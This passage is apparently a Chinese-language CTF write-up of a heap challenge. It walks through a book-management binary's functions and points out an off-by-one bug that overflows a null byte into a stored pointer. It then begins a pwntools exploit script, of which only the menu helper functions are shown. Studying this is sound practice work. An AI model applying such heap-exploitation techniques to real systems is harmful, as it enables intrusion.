 大致看一下这个函数，输入edit_id，根据这个变量对录入的book结构体的内容进行修改，大致了解一下就行了。

## 删除图书功能
接下来是删除图书的功能，进入函数sub_BBD

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599528218553-e2d874d3-df2a-4860-9c2b-e3400834f22f.png)

这个函数也是通过book_id来对图书的信息进行删除，对struct结构体中的内容进行了free。

## 打印图书信息功能分析
进入函数sub_D1F()：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599528500345-1b6385f1-55bc-42a2-af77-eb8ef92e5c28.png)

这个函数显而易见，对图书的每一个结构体进行了遍历，并打印出book结构体的信息。

## 修改作者名功能分析
![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599528638791-dfdd6124-e6c0-400f-b947-cfc18a2d6f1b.png)

简单的分析一下，依然是直接调用read_data_to_heap函数将新输入的作者名写入到堆中，用户名的长度依然是32字节。

## 总结
到目前为止，程序的所有函数关键点已经分析完成，我们需要记以下下几个关键点：

+ 作者名存放在off_202018地址的指针中，这个指针指向的空间大小一共32个字节。
+ 图书结构体指针存放在地址off_202010中
+ sub_9F5()函数存在off-by-one漏洞，**<font style="color:#F5222D;">在首次创建作者名或修改作者名的时候，</font>****<font style="color:#F5222D;">如果填写32个字节的任意字符串，那么就会导致</font>**`**<font style="color:#F5222D;">\x00</font>**`**<font style="color:#F5222D;">溢出到off_202018的低位（这一点很重要！）</font>**

# 思路讲解及动态调试
到了动态调试的部分了，记得把系统的ASLR关闭并授予程序权限以运行。

先来贴一下exp吧，没有exp进行讲解就没有灵魂：

> exp大致看一下，有个印象就行了
>

```python
from pwn import *
import time
context(log_level='DEBUG')

def create(name_len, name, desc_len, desc):
    p.sendline("1")
    p.recvuntil("Enter book name size: ")
    p.sendline(str(name_len))
    p.recvuntil("Enter book name (Max 32 chars): ")
    p.sendline(name)
    p.recvuntil("Enter book description size: ")
    p.sendline(str(desc_len))
    p.recvuntil("Enter book description: ")
    p.sendline(desc)

def delete(index):
    p.sendline("2")
    p.recvuntil("Enter the book id you want to delete: ")
    p.sendline(str(index))

def edit(index, desc):
    p.sendline("3")
    p.recvuntil("Enter the book id you want to edit: ")
```